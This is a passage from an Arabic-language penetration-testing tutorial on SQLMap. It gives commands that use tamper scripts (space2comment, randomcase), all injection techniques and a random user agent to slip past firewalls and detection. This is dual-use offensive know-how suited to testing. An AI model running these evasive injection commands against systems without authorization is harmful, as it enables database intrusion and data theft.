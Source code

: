 ##### 2. استبدال المسافات بالتعليقات (`space2comment`)
- استبدال المسافات بتعليقات لتجنب اكتشاف الاستعلام:
   ```
   sqlmap -r file.txt --tamper=space2comment
   ```

##### 3. تغيير الحروف الكبيرة والصغيرة (`randomcase`)
- تغيير الحروف في الاستعلام بشكل عشوائي:
   ```
   sqlmap -r file.txt --tamper=randomcase
   ```

##### 4. دمج التكنيكات
- استخدام أكتر من تكنيك معًا:
   ```
   sqlmap -r file.txt --tamper=space2comment,randomcase
   ```

---

#### استغلال الثغرات بتقنيات متعددة
SQLMap بتدعم التكنيكات التالية:
- **B**: Boolean-based blind
- **E**: Error-based
- **U**: Union query-based
- **S**: Stacked queries
- **T**: Time-based blind
- **Q**: Inline queries

- **تشغيل كل التكنيكات:**
   ```
   sqlmap -r file.txt --technique=BEUSTQ
   ```

---

#### الشكل النهائي للأمر
لدمج كل الخيارات المتقدمة (الخداع والتكنيكات):

```
sqlmap -r file.txt --random-agent --tamper=space2comment,randomcase --technique=BEUSTQ --delay=2
```

---

#### المميزات
1. **سهولة الاستخدام**: توفير الوقت عن طريق الملفات.
2. **مرونة متقدمة**: دمج التكنيكات المختلفة لتخطي الحماية.
3. **تقليل الحظر**: استخدام وكيل عشوائي وتقنيات التمويه.

---
# أمثلة أوامر متقدمة باستخدام SQLMap لتخطي جدران الحماية واختبار الثغرات

---